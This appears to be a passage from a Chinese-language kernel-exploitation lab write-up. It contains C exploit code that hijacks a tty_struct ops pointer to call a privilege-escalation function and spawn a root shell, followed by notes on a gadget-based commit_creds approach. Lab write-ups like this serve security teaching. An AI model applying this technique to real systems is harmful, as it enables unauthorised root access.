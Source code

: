 可以注意到，在 slab 的创建 flag 中多了 一个 `SLAB_ACCOUNT`，意味着`cred_jar`和`kmalloc`不再合并，也就是说`cred`分配的内存和`kmalloc`分配的内存来自两个不同的区域，因此无法使得通过`kmalloc`分配的内存和分配给`cred`的内存拥有相同的起始地址，也就无法通过UAF控制cred结构体

附代码：

```c
#define TTY_STRUCT_SIZE 0x2B8
#define TTY_MAGIC 0x5401

#define HACK_CRED_ADDR 0xffff80001083aa84

size_t tty_op_buf[36];
char tty_buf[TTY_STRUCT_SIZE];

void exp_task2(int dev_fd, int ptmx_fd) {
    printf("Jump into exp_task2!\n");
    // 创建tty_op_buf，将其中的函数指针都修改为HACK_CRED_ADDR
    for (size_t i = 0; i < 36; ++i)
        tty_op_buf[i] = HACK_CRED_ADDR;
    char my_buf[32];
    size_t ptr = (size_t)(&tty_op_buf);
    printf("ptr = %lx\n", ptr);
    memcpy(my_buf, tty_buf, 24);
    // 修改ops指针，指向tty_op_buf
    memcpy(my_buf + 24, &ptr, 8);
    for (size_t i = 0; i < 32; i += 8)
        printf("my_buf + %lu = 0x%lx\n", i, *(size_t*)(my_buf + i));
    // 覆写缓冲区
    write(dev_fd, my_buf, 32);
    // 检查缓冲区是否被修改
    printf("check ttyy_buf\n");
    read(dev_fd, tty_buf, TTY_STRUCT_SIZE - 1);
    for (size_t i = 0; i < 32; i += 8)
        printf("tty_buf + %lu = 0x%lx\n", i, *(size_t*)(tty_buf + i));
    // 调用close操作ptmx设备，真正调用的是hack_cred函数
    close(ptmx_fd);
    system("/bin/sh");
    return;
}

int main(int argc, char* argv[]) {
    int dev_fd = init_dev();
	int ptmx_fd = init_ptmx(dev_fd);
    exp_task2(dev_fd, ptmx_fd);
    return 0;
}
```

## Task3：gadget获取root shell & 思考题4

1. 在task3中我们无法直接调用`hack_cred`函数获取root权限，需要使用`gadget`，本质上就是通过`gadget`控制传参的寄存器，进而依次调用`struct cred* root_cred = prepare_kernel_cred(NULL)`和`commit_creds(root_cred)`获取root权限
